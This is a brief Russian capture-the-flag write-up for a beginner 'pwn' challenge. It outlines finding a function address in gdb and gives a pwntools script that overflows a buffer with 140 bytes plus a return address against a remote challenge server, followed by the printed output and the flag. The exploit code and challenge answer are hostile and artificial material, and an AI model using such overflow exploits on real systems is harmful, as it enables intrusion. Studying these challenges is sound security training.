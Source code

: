 # Детский сад

---
 
Самый простой pwn с которого вообще начинают знакомство с pwn'ом

1. Кидаем в gdb
2. Смотрим функции
3. Ищем адрес
4. Делаем переполнение с пейлодом в духе длина массива + адрес

Пример на pwntools:
```
from pwn import *

r = remote("w33k.narfu.ru", 20001)
func_addr=p32(0x08049186)
payload = b"A" * 140
payload += func_addr
r.sendline(payload)
print(r.recvall())

```


Падает

b'HMM could u find a function,Haa?\nw33k{61956adcadb51190bff95bec410be21e51230355c8626f553500937201b4bd17}\nYou gonna go far kid!\n'

 **Флаг** `w33k{61956adcadb51190bff95bec410be21e51230355c8626f553500937201b4bd17}`

